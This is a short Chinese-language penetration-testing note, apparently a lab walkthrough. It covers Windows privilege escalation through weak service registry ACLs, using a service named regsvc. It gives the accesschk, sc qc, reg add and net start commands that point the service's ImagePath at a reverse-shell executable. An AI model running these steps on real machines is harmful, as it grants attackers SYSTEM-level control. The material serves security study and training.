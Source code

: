 # 注册表配置错误-弱注册表权限

原理：Windows 注册表存储每个服务的条目。由于注册表项可以有 ACL，**如果 ACL 配置错误**，虽然我们不能直接修改服务，**但是我们也有可能修改服务的配置。**

利用方式：**如果未正确设置用户和组的权限**并允许访问服务的注册表项，那么我们可以**更改服务 binPath 以指向其控制下的不同可执行文件**。当服务启动或重新启动时，我们的程序将执行

## 案例：regsvc

利用方式：1.删除现有的 exe 文件并替换为我们的反向shell
                  2.将注册表路径本身修改为反向shell文件

```bash
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc  查看是否具有注册表的读写权限
sc qc regsvc //查看以何种权限运行
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f  //覆盖 ImagePath 注册表项以指向您创建的 reverse.exe 可执行文件
net start regsvc 手动重启服务
```